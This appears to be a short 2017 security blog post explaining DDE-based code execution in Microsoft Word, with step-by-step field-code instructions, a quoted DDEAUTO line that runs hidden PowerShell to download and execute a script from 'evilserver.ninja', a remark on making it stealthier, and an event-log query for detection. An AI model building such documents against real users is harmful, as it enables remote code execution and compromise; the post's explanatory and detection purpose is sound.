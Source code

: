 ```yaml
---
layout: post
title: "Code Execution in MSWord"
date: 2017-10-11
---
```

I read about a cool way to get code execution in MSWord from [SensePost](https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/ )'s Saif El-Sherei and later read about a way to detect it from [SecurityForRealPeople](https://www.securityforrealpeople.com/2017/10/exploiting-office-native-functionality.html#more)'s David Longenecker. 
Saif does a good job of explaining the steps in his post, but the basic setup is: 
1. <code> Insert </code> tab -> Quick Parts -> <code> Field </code>
2. choose <code> =(Formula) </code> and click ok
3. right-click on <code> !Unexpected End of Formula </code> and choose <code> Toggle Field Codes </code>
4. change the Field Code to contain:
    <p> <code> {DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"} </code>
5. save the document and then open it
6. you will get two prompts to click through and then calc will open

The possibilities here are endless. Saif's proof of concept video in the post uses powershell to download an empire launcher
   <p> <code> { DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://evilserver.ninja/pp.ps1');powershell -e $e "}
</code>
 
I think depending on the access I had on the machine, I would change the syntax to be more stealthy, so the popup doesnt raise any red-flags with the user. 

Execution is lots of fun, but improving defenders and showing them how to find the cool techniques is really where the money is made. 

I drilled down on this particular code execution with the Powershell command below. It will differ with environment and context:
  <p>  <code> Get-EventLog -Log "OAlerts" -Newest 5 | where {$_.eventID -eq 300} | format-list -Property Message</code>
